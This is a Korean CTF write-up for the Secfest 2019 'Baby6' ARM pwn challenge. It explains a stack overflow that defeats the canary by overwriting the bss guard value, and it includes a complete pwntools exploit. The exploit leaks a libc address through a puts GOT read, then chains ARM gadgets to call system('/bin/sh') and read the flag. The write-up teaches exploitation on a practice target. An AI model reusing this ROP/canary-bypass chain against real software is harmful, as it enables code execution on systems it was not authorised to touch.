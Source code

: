 ```yaml
---
title: Secfestctf Writeup
date: 2019-06-25
---
```


### Baby6

ARM arch (arm mode)

```c
int sub_8654()
{
  int v1; // [sp+0h] [bp-54h]
  char *v2; // [sp+4h] [bp-50h]
  char *i; // [sp+4h] [bp-50h]
  int v4; // [sp+8h] [bp-4Ch]
  char s; // [sp+Ch] [bp-48h]

  v1 = 0;
  v2 = &s;
  memset(&s, 0, 0x40u);
  setvbuf((FILE *)stdin, 0, 2, 0);
  setvbuf((FILE *)stdout, 0, 2, 0);
  alarm(0x3Cu);
  banner();
  while ( 1 )
  {
    printf("number: ");
    fgets(byte_112F0, 4132, (FILE *)stdin);
    v4 = atoi(byte_112F0);
    if ( !v4 )
      break;
    *(_DWORD *)v2 = v4;
    v2 += 4;
  }
  for ( i = &s; *(_DWORD *)i; i += 4 )
    v1 += *(_DWORD *)i;
  printf("\x1B[1mtotal:\x1B[0m %d\n", v1);
  return 0;
}
```

fgets로 bss에 쓰고 입력한 값을 atoi로 변환에 s 배열에 차곡차곡 넣어준다. canary가 있는데 bss영역에 canary 비교 값이 존재하고 그 값을 덮고 스택의 canary를 맞춰주면 된다.

```c
.bss:000116F0 __stack_chk_guard % 4                   ; DATA XREF: LOAD:0000826C↑o
.bss:000116F0                                         ; banner+C↑o ...
.bss:000116F0                                         ; Copy of shared data
```

arm 익스를 몇번 안해보기도 했고 잘 기억이 안났었는데 익스 자체는 mips랑 똑같이 바이너리 내부의 가젯을 이용했다. 기억 상에서는 pop r0 ~r8 이런식으로 가젯이 존재했던 것 같은데 보통 존재하지 않고 JOP로 익스를 해야 한다고 들었다.

```c
.text:0000881C loc_881C                                ; CODE XREF: sub_87E4+58↓j
.text:0000881C                 MOV     R0, R6
.text:00008820                 MOV     R1, R7
.text:00008824                 MOV     R2, R8
.text:00008828                 LDR     R12, [R10,R4,LSL#2]
.text:0000882C                 MOV     LR, PC
.text:00008830                 BX      R12             ; sub_85D4
.text:00008834                 ADD     R4, R4, #1
.text:00008838                 CMP     R4, R5
.text:0000883C                 BCC     loc_881C
.text:00008840
.text:00008840 loc_8840                                ; CODE XREF: sub_87E4+30↑j
.text:00008840                 LDMFD   SP!, {R4-R10,LR}
.text:00008844                 BX      LR
```

8840 으로 r 레지스터 세팅한 후 881c에서 해당 함수를 호출 할 수 있다 LDR R12, [R10,,,] 에서 *R10 을 로드하기 때문에 bss 영역에  puts_plt를 넣고 bss의 주소를 넣어주어야 한다. 

```python
from pwn import *
import sys

if len(sys.argv)>1 :
	t = remote('baby-01.pwn.beer',10006)
	#t = process(['qemu-arm','-L','/usr/arm-linux-gnueabi','./baby6'])
else :
	t = process(['qemu-arm','-g','8888','-L','/usr/arm-linux-gnueabi','./baby6'])

def pp(a):
	log.info("%s : 0x%x" % (a,eval(a)))

e = ELF('./baby6')
l = e.libc

sa = lambda w: t.sendlineafter("number:",str(w))
r = lambda z: t.recvuntil(str(z))

for i in range(18):
	sa("1")

puts = e.plt['puts']
puts_got = e.got['puts']
main = 0x8550

setting_r = 0x00008840 # LDMFD   SP!, {R4-R10,LR}
call = 0x0000881C

sa(str(setting_r))
sa("1")
sa("2")
sa(str(puts_got))
sa("1")
sa("1")
sa("1")
sa(str(0x112f0-4))
sa(str(call))

sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)

sa("\xfc\x84\x00\x00" + "1"*(0x400-4) + p32(1))
r("\n")

libc = u32(t.recv(4)) - 0x47b01 
pp('libc')
sys = libc + 0x2d4cd 
pp('sys')

for i in range(18):
	sa("1")

sa(str(setting_r))
sa("1")
sa("2")
sa(str(0x112f0+8))
sa("1")
sa("1")
sa("1")
sa(str(0x112f0))
sa(str(call))

sa("1"*4 + p32(sys) + "/bin/sh\x00" + "1"*(0x400-16) + p32(1))
sa("")

t.sendline("cat flag")

t.interactive()
```

puts leak -> system

립시 찾기가… 문제에서 립시를 안줬는데 립시를 사용안하고 풀 수 있는진 모르겠다.. 18.04에서 qemu로 돌리는거라 생각했는데 offset이 달라서 시간이 오래 걸렸다.. armhf 라이브러리를 사용하고 있어서 나중에 찾았음 ㅠ

풀 때 도움 주신 @shpik님 감사합니다.

